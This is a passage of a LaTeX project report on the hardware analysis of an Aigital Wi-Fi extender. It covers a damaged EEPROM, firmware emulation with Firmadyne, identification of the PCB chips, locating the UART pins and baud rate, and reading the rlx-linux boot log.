            
\includegraphics[width=0.8\textwidth]{../imgs/1.5-riparazione-2.jpeg}
            \caption{Reparation process 2}
            \label{fig:rep2}
        \end{figure}
        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.8\textwidth]{../imgs/1.6-riparazione-3.jpeg}
            \caption{Reparation process 3}
            \label{fig:rep3}
        \end{figure}
        
        To top it all off, though, we broke one of the chip’s pins while repeatedly inserting and removing the EEPROM (Figure~\ref{fig:brokenEeprom}). 

        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.8\textwidth]{../imgs/1.7-eeprom-rotta.jpeg}
            \caption{Broken EEPROM}
            \label{fig:brokenEeprom}
        \end{figure}
        
        To avoid wasting any more time fixing this problem, we continued with the project by fully emulating the firmware, including the web server, using Firmadyne. Further details are available in the section~\ref{sec:firmware emulation}.

        
\chapter{Analysis}
\label{chap:analysis}
    \section{Hardware}
        Opening the device we exposed the PCB, which is shown in Figure~\ref{fig:PCB}. 
        
        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.5\textwidth]{../imgs/2.1-PCB.jpeg}
            \caption{PCB of the Aigital Wi-Fi Extender (after de-soldering the eeprom and inserting a connector to make the UART easier to read)}
            \label{fig:PCB}
        \end{figure}
        
        % We can see that the device is powered by a Mediatek MT7628NN\cite{MT7628NN}, which is a SoC designed for IoT devices.
        By a visual inspection of the PCB, we identified the pins of the UART interface, yellow arrow, the eeprom, green arrow and the following chips:
        \begin{itemize}
            \item ESMT M12L128168A, a 128 Mbit Synchronous DRAM (SDRAM) manufactured by ESMT (Elite Semiconductor Memory Technology Inc.). It is organized as 4 banks × 2,097,152 words × 16 bits, totalling 134,217,728 bits, and is designed for high-bandwidth, high-performance memory subsystems \cite{M12L128168A};
            \item RTL8196E, a compact SoC for low-power, low-cost networking applications. It combines a 400 MHz embedded CPU, a 5-port Fast Ethernet switch, and various peripherals (PCIe, SPI boot flash, DRAM interfaces, UART, and GPIO, among others) \cite{RTL8196E};
            \item RTL819ER, a highly integrated Wi-Fi module that can be easily integrated (given its self-contained design) and is optimized for low-power, high-speed operation. It has the ability to switch both analog and digital signals an to work with weak signals, making it ideal for a variety of applications, from IoT to game consoles \cite{RTL819ER}.
        \end{itemize}

        \subsection{UART}
            Using a digital multimeter, we individuated the pins of the UART interface (Figure~\ref{fig:uart}), which are (from left to right):
            \begin{itemize}
                \item Pin 1: VCC (red arrow)
                \item Pin 2: TX (yellow arrow)
                \item Pin 3: RX (green arrow)
                \item Pin 4: GND (blue arrow)
            \end{itemize}
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.8\textwidth]{../imgs/2.2-uart.jpeg}
                \caption{UART interface}
                \label{fig:uart}
            \end{figure}
            Once we identified the pins of the UART interface, we found, with some patience, the correct baud rate for the communication, which is 38400 baud.
            \\
            Booting the device and connecting to the UART interface with a USB-to-TTL adapter, we were able to read the boot log of the device, which is shown in Figure~\ref{fig:boot_log}.
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.8\textwidth]{../imgs/2.3-boot_log.png}
                \caption{Boot log of the device}
                \label{fig:boot_log}
            \end{figure}
            Unfortunately, no U-Boot console is available, but the boot log is still very useful for us, since it allows us to identify rlx-linux as the operating system running on the device. 
            The os we found, rlx-linux, is a custom open source Linux distribution for embedded devices.
            \\
            We tried to submit in the login  some common default credentials, but we were not able to log in to the device. 
            
            \subsection{Eeprom}
            
            The EEPROM is a BoyaMicro 25D16ASSIG (Figures~\ref{fig:eeprom}, ~\ref{fig:pin}, ~\ref{fig:logicDiagram}), which is a 16 Mbit (2 MB) SOP8 208mil SPI EEPROM.
            
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.5\textwidth]{../imgs/2.4-eeprom.jpeg}
                \caption{EEPROM}
                \label{fig:eeprom}
            \end{figure}
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.5\textwidth]{../imgs/BY25D16AS/2.png}
                \caption{EEPROM Pin Configuration\cite{boya-micro}}
                \label{fig:pin}
            \end{figure}
            \begin{figure}[H]
                \centering
